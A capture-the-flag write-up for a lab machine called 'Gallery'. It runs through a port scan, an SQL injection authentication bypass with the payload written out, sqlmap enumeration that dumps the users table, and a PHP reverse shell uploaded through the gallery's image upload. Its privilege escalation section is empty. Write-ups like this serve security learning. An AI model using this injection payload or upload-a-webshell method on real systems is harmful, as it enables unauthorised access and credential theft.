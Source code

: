 # Gallery

**CTF Domain: Gallery.ctf**

## Scans

```rustscan -a Gallery.ctf```

```
Nmap scan report for Gallery.ctf (10.10.91.172)
Host is up, received syn-ack (0.095s latency).
Scanned at 2022-02-16 20:37:16 EST for 0s

PORT     STATE SERVICE    REASON
80/tcp   open  http       syn-ack
8080/tcp open  http-proxy syn-ack
```

## Eumeration

Website on :80 seems to be just a default Apache webpage

Website on :8080 brings us to a login page

Using a proxy, we can find that logging in returns a JSON object with the SQL query
```
SELECT * from users where username = 'admin' and password = md5('test')
```

This is definitely injectable!

The CTF asks for the hashed password for the "admin" user, we'll use this as a username

For a password, we need to enter in a random string to have it hashed, then escape the function, add "OR 1=1" to bypass the authentication, and a comment at the end for good measure.
```
test')+OR+1%3d1%3b+--+-
```

I tried to do this in the browser but it was not working, so I sent the request in Burp then copied the PHP session to my browser (it worked later on)

And we have the admin account!

## SQLMap

A question asks us to get the admin account hash, lets see if we can get that through SQLi

SQLMap is very helpful, it can find all of the information for us, for example the DB name:
```
available databases [2]:
[*] gallery_db
[*] information_schema
```

Using the DB name we can then get the tables:
```
album_list
[21:58:26] [INFO] retrieved: images
[21:58:47] [INFO] retrieved: system_info
[21:59:37] [INFO] retrieved: users
```

The users table looks about right, lets dump that!
```
Columns:
[22:02:37] [INFO] retrieved: id
[22:02:46] [INFO] retrieved: firstname
[22:03:20] [INFO] retrieved: lastname
[22:03:51] [INFO] retrieved: username
[22:04:21] [INFO] retrieved: password
[22:04:56] [INFO] retrieved: avatar
[22:05:17] [INFO] retrieved: last_login
```

(I stopped here because it takes sooooo long with time attacks)

Dumping the username and password column got us the hash!

```
+----------+----------------------------------+
| username | password                         |
+----------+----------------------------------+
| admin    | $HASH                            |
+----------+----------------------------------+
```

## Exploitation

Website is an image gallery, maybe we can upload a webshell?

In /gallery/?page=albums we can make a new album and upload a picture

Uploading the simple PHP reverse shell works easily

Setting up pwncat and accessing the image pops a shell on the machine!


## Privilege Escalation



